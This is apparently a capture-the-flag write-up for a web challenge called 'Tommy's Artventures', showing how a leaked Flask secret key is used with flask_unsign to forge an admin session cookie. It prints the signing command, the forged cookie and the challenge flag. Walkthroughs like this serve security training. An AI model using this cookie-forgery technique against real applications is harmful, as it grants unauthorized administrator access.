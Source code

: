 ![image](https://github.com/x03ee/USC-CTF-2024/blob/main/web/Tommy's%20Artventures/chall.png)

With the secret `4a6282bf78c344a089a2dc5d2ca93ae6` when logging in we find out its jwt and when changing to admin and with the secret we get a new jwt and when changing the cookie we get flag since only admin is allowed.

![image](https://github.com/x03ee/USC-CTF-2024/blob/main/web/Tommy's%20Artventures/s1.png)

```py
python3 -m flask_unsign --sign --cookie '{"user": "admin"}' --secret '4a6282bf78c344a089a2dc5d2ca93ae6'
```
```js
{
  "user": "admin"
}
```

Cookie:
`eyJ1c2VyIjoiYWRtaW4ifQ.Zyff7w.cCzlyC0k1s5GDdWEUBG6ImgX9BM`

Flag:
`CYBORG{oce4n5_auth3N71ca7i0N}`
